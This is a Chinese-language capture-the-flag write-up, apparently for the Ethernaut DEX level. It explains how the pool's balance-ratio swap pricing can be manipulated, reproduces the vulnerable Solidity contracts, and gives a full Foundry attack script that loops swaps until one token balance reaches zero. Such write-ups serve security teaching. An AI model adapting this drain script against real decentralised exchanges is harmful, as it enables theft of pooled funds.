

## DEX

### 目标：

让代币池中的某一种代币余额变成 0

### 思路：

由题目可知，刚开始两种代币余额都为100，攻击者的两种代币都为10，`getSwapPrice()`函数计算兑换代币后，可以获得多少目标代币，代币的个数为

```
swapAmount = 要兑换代币的数量 * 要获取代币的个数/当前代币的个数
```

目前

```
池子中的代币
token1 = 100
token2 = 100
攻击者：
token1 = 10
token2 = 10
```

第一次调用`swap()`函数

```
swap(address(Token1),address(Token2),10)
swapAmount = 10 * 100/100 = 10
池子中的代币；
token1 = 110
token2 = 90
攻击者：
token1 = 0
token2 = 20
```

第二次调用`swap()`函数

```
swap(address(Token2),address(Token1),20)
swapAmount = 20 * 110/90 = 24
池子中的代币；
token1 = 86
token2 = 110
攻击者：
token1 = 24
token2 = 0
```

第三次调用`swap()`函数

```
swap(address(Token1),address(Token2),24)
swapAmount = 24 * 110/86 = 30
池子中的代币；
token1 = 110
token2 = 80
攻击者：
token1 = 0
token2 = 30
```

继续这么循环下去，使两种 token 的比例越来越失衡，用户的代币越来越多，最后池子被抽干就通关了，开始的时候必须先授权DEX，因为swap()需要使用 `transferFrom()`

for循环中的第一个if判断是确定DEX是否被打空，如果池中有一个Token为0，则跳出循环

第二个和第三个if判断是防止攻击者的Token为0，导致`swap(token1,token2,0)`没有意义。`receive`表示按当前的amount1执行swap，预期能得到多少token2，如果预期得到的比代币池中的多，就减少投入代币的数量，反之就正常交换，这样一直循环下去，直到代币池中的某个Token变为0

### 源码：

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import "openzeppelin-contracts-08/access/Ownable.sol";

contract Dex is Ownable {
    address public token1;
    address public token2;

    constructor() {}

    function setTokens(address _token1, address _token2) public onlyOwner {
        token1 = _token1;
        token2 = _token2;
    }

    function addLiquidity(address token_address, uint256 amount) public onlyOwner {
        IERC20(token_address).transferFrom(msg.sender, address(this), amount);
    }

    function swap(address from, address to, uint256 amount) public {
        require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
        require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
        uint256 swapAmount = getSwapPrice(from, to, amount);
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        IERC20(to).approve(address(this), swapAmount);
        IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
    }

    function getSwapPrice(address from, address to, uint256 amount) public view returns (uint256) {
        return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
    }

    function approve(address spender, uint256 amount) public {
        SwappableToken(token1).approve(msg.sender, spender, amount);
        SwappableToken(token2).approve(msg.sender, spender, amount);
    }

    function balanceOf(address token, address account) public view returns (uint256) {
        return IERC20(token).balanceOf(account);
    }
}

contract SwappableToken is ERC20 {
    address private _dex;

    constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply)
        ERC20(name, symbol)
    {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
    }

    function approve(address owner, address spender, uint256 amount) public {
        require(owner != _dex, "InvalidApprover");
        super._approve(owner, spender, amount);
    }
}
```

### poc：

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
interface DEX {

    function swap(address from,address to,uint256 amount) external;
    function getSwapPrice(address from,address to,uint256 amount) external view returns(uint256);
    function token1() external view returns(address);
    function token2() external view returns(address);
}

contract Attack is Script {

    DEX dex = DEX(0x1619D093541aF13A7D4B490D6c75cBB49EB31538);
    function run() external {
        address token1 = dex.token1();
        address token2 = dex.token2();
        vm.startBroadcast();

        IERC20(token1).approve(address(dex),type(uint256).max);
        IERC20(token2).approve(address(dex),type(uint256).max);

        for(uint256 i = 0; i < 50; i++){
            if(IERC20(token1).balanceOf(address(dex)) == 0 || IERC20(token2).balanceOf(address(dex)) == 0){
                break;
            }

            uint256 amount1 = IERC20(token1).balanceOf(msg.sender);
            if(amount1 > 0){
                uint256 dexToken2 = IERC20(token2).balanceOf(address(dex));
                uint256 receive = dex.getSwapPrice(token1,token2,amount1);

                if(receive > dexToken2){
                    amount1 = amount1 * dexToken2 / receive;
                }
                if(amount1 > 0){
                    dex.swap(token1,token2,amount1);
                }
            }


            uint256 amount2 = IERC20(token2).balanceOf(msg.sender);
            if(amount2 > 0){
                uint256 dexToken1 = IERC20(token1).balanceOf(address(dex));
                uint256 receive = dex.getSwapPrice(token2,token1,amount2);

                if(receive > dexToken1){
                    amount2 =amount2 * dexToken1 / receive;
                }
                if(amount2 > 0){
                    dex.swap(token2,token1,amount2);
                }
            }
        }
        vm.stopBroadcast();
    }
}
```


